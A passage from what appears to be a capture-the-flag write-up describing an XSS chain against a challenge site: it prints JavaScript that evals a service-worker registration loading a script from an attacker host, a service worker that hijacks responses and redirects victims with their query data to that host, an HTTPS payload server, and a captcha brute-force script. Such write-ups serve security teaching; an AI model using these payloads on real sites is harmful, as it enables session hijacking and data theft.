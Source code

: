 `xss.js` register serviceworker by embedding an iframe:

```js
if(!window.__x) {
    document.domain = "cubestone.com";
    var iframe = document.createElement('iframe');
    iframe.src = 'https://flaaaaaaaag.cubestone.com';
    iframe.addEventListener("load", function(){ iffLoadover(); });
    document.body.appendChild(iframe);
    exp = `
    var xhr = new XMLHttpRequest();
    navigator.serviceWorker.register("/loader.php?secret=asdasd&callback=importScripts('//192.168.200.1:8000/sw.js');//")`;
    function iffLoadover(){
        iframe.contentWindow.eval(exp);
    }
    window.__x=1;
}
```

`sw.js` listen the `fetch` event intercept the user's request and tamper the response:

```js
this.addEventListener('fetch', function (event) {
    var body = "<script>location='http://192.168.200.1:9001/'+location.search;</script>";
    var init = {headers: {"Content-Type": "text/html"}};
    var res = new Response(body, init);
    event.respondWith(res.clone());
});
```

5.Another problem here is that the admin bot access path is `https`, so we can use the python implementing a simple https server:

```python
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
import ssl
from http.server import SimpleHTTPRequestHandler, HTTPServer

port = 8000
httpd = HTTPServer(('0.0.0.0', port), SimpleHTTPRequestHandler)
print(f"Https Server Listening on [0.0.0.0:{port}]")
httpd.socket = ssl.wrap_socket(httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

Now everything is ready, upload the xss.jpg and get path, then upload xss.svg. Afterwards, submit the `/user` page to the bot and trigger the xss

the `/submit` page has captcha, simply brute force it with a script:

```python
import hashlib

def md5(s):
    return hashlib.md5(s).hexdigest()

def verify(s):
    for i in range(1, 9999999):
        if md5(str(i).encode("utf8")).startswith(s):
            return(i)
            break
```

